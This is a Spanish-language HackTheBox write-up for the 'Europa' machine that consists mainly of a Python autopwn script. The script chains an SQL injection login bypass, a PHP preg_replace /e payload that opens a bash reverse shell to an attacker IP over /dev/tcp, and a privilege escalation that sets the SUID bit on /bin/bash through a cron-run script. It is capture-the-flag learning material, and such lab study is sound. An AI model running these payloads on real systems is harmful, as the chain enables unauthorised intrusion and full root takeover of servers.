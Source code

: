 ```yaml
---
layout: single
title: Europa - HackTheBox
excerpt: "Descripción del writeup..."
date: 2020-01-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-europa/europa_logo.png
categories:
  - hackthebox    # Categoría para la plataforma
tags:
  - linux
  - web
  - sqli
  - rce
---
```


<p align="center">
<img src="/assets/images/htb-writeup-europa/europa_logo.png">
</p>

Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn.

Para los interesados en la resolución de esta máquina, os dejo el enlace al vídeo que subí a mi canal:

- [Máquina Europa - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)

## Script Autopwn

```python
#!/usr/bin/python
#coding: utf-8

# Author: s4vitar https://www.youtube.com/watch?v=wOm4OOBLbys

import requests, sys, urllib3, signal, time, threading
from pwn import *

# Declaración de variables
url = "https://admin-portal.europacorp.htb/login.php"
url_openvpn = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

signal.signal(signal.SIGINT, signal.SIG_DFL)

def obtainShell():

 s = None

 try:
  urllib3.disable_warnings()
  s = requests.session()
  s.verify = False
  s.keep_alive = False

  login_data = {
   'email' : "admin@europacorp.htb' OR '1' = '1",
   'password' : 'admin'
  }

  p1 = log.progress("Login")
  p1.status('Realizando inyección SQL')
  time.sleep(2)

  r = s.post(url, data=login_data)

  p1.status('Inyección SQL enviada')
  time.sleep(2)

  if "Dashboard" in r.text:
   p1.success("Inyección SQL realizada con éxito")
   time.sleep(1)
   log.success("Acceso al Dashboard garantizado")
   time.sleep(1)
  else:
   p1.failure("No ha sido posible realizar la inyección SQL")
   sys.exit()

  p2 = log.progress("Explotación")
  p2.status("Creando un nuevo fichero de configuración VPN")
  time.sleep(2)

  openvpn_config_file_data = {
   'pattern' : '/ip_address/e',
   'ipaddress' : """system("bash -c 'bash -i > /dev/tcp/10.10.14.55/443 0>&1'")""",
   'text' : 'ip_address = s4vitar'
  }

  p2.status("Enviando petición al servidor")
  time.sleep(2)

  r = s.post(url_openvpn, data=openvpn_config_file_data, timeout=1)

  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except requests.exceptions.ReadTimeout:
  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except:
  print "\n[*] Ha ocurrido un error...\n"
  sys.exit()

if __name__ == '__main__':

 try:
  threading.Thread(target=obtainShell).start()
 except Exception as e:
  log.error(str(e))

 shell = listen(lport, timeout=20).wait_for_connection()

 if shell.sock is None:
  log.failure("No se ha obtenido ninguna conexión")
  sys.exit()
 else:
  log.success("Se ha obtenido una conexión")
  time.sleep(1)
  log.info("Acceso al sistema como usuario www-data")
  time.sleep(1)

 p3 = log.progress("Escalación de privilegios")
 p3.status("Creando fichero logcleared.sh en el sistema")
 time.sleep(2)
 shell.sendline("echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /var/www/cmd/logcleared.sh; chmod +x /var/www/cmd/logcleared.sh")
 p3.status("Archivo logcleared.sh creado")
 time.sleep(120)
 p3.status("Obteniendo shell como root")
 shell.sendline("bash -p")
 p3.success("Pwned!!")
 shell.interactive()

 sys.exit()
```